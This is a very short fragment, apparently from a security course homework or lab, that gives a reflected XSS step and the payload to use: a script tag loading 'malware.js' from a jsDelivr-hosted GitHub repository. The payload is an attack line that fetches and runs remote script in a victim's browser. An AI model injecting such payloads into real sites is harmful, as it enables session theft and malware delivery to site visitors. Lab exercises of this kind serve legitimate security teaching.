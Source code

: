 Use reflected XSS to insert the following statement:

<script src="https://cdn.jsdelivr.net/gh/ajc9076/csec380-hw6/malware.js"></script>